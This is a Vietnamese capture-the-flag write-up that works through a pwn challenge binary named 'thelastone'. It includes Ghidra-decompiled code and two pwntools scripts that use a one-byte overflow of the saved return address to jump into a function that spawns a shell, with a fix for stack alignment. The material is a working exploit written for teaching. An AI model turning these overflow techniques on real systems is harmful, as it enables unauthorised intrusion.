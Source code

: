 Giờ ta sẽ nhìn qua file binary được cung cấp và các chế độ bảo vệ

![image](https://user-images.githubusercontent.com/114044703/213367728-dafb94f9-c705-49e2-891e-7b2a13b4f3e8.png)

![image](https://user-images.githubusercontent.com/114044703/213367995-43053f96-fc31-43a1-b767-c310ce9ba96c.png)

Ta sẽ kiểm tra hàm main bằng trình ghidra:

```
void main(EVP_PKEY_CTX *param_1)

{
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined4 local_18;
  uint local_14;
  int local_10;
  int local_c;
  
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_c = 10;
  init(param_1);
  local_10 = open("/dev/urandom",0);
  if (-1 < local_10) {
    read(local_10,&local_14,4);
    close(local_10);
    srand(local_14);
    do {
      menu();
      __isoc99_scanf(&DAT_0040227c,&local_18);
      getchar();
      switch(local_18) {
      default:
        puts("Unknown option!");
        break;
      case 1:
        set_name(&local_38);
        break;
      case 2:
        get_name(&local_38);
        break;
      case 3:
        find_food();
        break;
      case 4:
        kill_zombie(local_c);
        local_c = local_c + -1;
        break;
      case 5:
        find_survivor();
        break;
      case 6:
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
    } while( true );
  }
  puts("Cannot open urandom");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
Khi đi sâu vào các hàm con:

set_name chỉ đơn thuần lấy tên từ bàn phím:

![image](https://user-images.githubusercontent.com/114044703/213368593-7e9fec1c-76ec-4e23-8cf8-410adf341daf.png)

get_name thì in ra tên nếu ta đã chọn tên:

![image](https://user-images.githubusercontent.com/114044703/213368616-9ac27f78-7a25-4efe-b324-43caf92b2096.png)
  
 In ra chuỗi

![image](https://user-images.githubusercontent.com/114044703/213368700-f8b9551f-3cff-4542-b24d-2a3fb8b8914e.png)

In ra số zombies(giảm dần)

![image](https://user-images.githubusercontent.com/114044703/213368714-a30f6097-d69c-43ad-b778-8d862b7e1d25.png)

Ở hàm find_survivor thì  nếu số random khác 0 thì ho ta nhập 0x58 từ bàn phím 

![image](https://user-images.githubusercontent.com/114044703/213369340-4bdfe4cd-f732-4835-8351-662220f94a39.png)

Thoạt nhìn thì đây là lỗi buffer over flow khi ```local_58``` chỉ có 76 phần tử nhưng để đè save rip lại không thể đè được khi offset của nó đồng thời là 0x58

![image](https://user-images.githubusercontent.com/114044703/213369599-6b950009-990a-45b0-b60b-f68f05e6eb06.png)

Tuy nhiên khi đi sâu vào hàm read_str thì có vẻ như là hàm đã đọc 0x58 + 1 byte -> ta có thể điều khiển được 1 byte của save rip -> Có khả năng cao đây là bài dạng ret2win

![image](https://user-images.githubusercontent.com/114044703/213372842-af6bc97c-9438-48d7-9d98-10124cb42ba7.png)


Ta thấy có hàm unknown có lệnh system("/bin/sh ") ta đang cần và có để dẫn tới được:

![image](https://user-images.githubusercontent.com/114044703/213370103-49eeeb96-e11c-4e6b-a462-efd679107fa5.png)

Tiến hành vào debug, ta đặt break point tại ret của find_survivor xem có thể dẫn sang địa chỉ unknow không:




Vậy ta có thể dẫn sang unknown là ```0x401667```

Viết khai thác với những dữ kiện trên:
```
from pwn import *
debug=1

if debug:
 	t=process("./thelastone")
 	gdb.attach(t,api=True)
else:
	t=remote("146.190.115.228",9995)
	#context.log_level = 'debug'
for i in range (5):             #lặp lại đến khi tìm được người sống sót
	t.sendlineafter(b">",b"5")
	data=t.recvline()
	if b"Nice, you found another survivor. Let's make friend with her now!\n" in data:
		break
	
t.sendafter(b">",b"A"*88+b"\x67")
t.interactive()

```

Khi thực thi có vẻ như đã có lỗi thanh ghi xmm0 khi địa chỉ rsp không đủ đk:

![image](https://user-images.githubusercontent.com/114044703/213371066-1019beb6-4b9c-453c-879d-13d026aaa257.png)

Thay thì nhảy ngay tại hàm unknown ta sẽ nhảy tới unknown +5(nhảy qua đoạn ```push rbp```) để địa chỉ rsp hợp lệ 

```
from pwn import *
debug=1

if debug:
 	t=process("./thelastone")
 	gdb.attach(t,api=True)
else:
	t=remote("146.190.115.228",9995)
	#context.log_level = 'debug'
for i in range (5):             #lặp lại đến khi tìm được người sống sót
	t.sendlineafter(b">",b"5")
	data=t.recvline()
	if b"Nice, you found another survivor. Let's make friend with her now!\n" in data:
		break
	
t.sendafter(b">",b"A"*88+b"\x6c")   #unknow+5
t.interactive()

```

Sau khi thực thi :

![image](https://user-images.githubusercontent.com/114044703/213371524-7d7bc2f8-ea3e-43eb-af97-9c86c540c1a5.png)




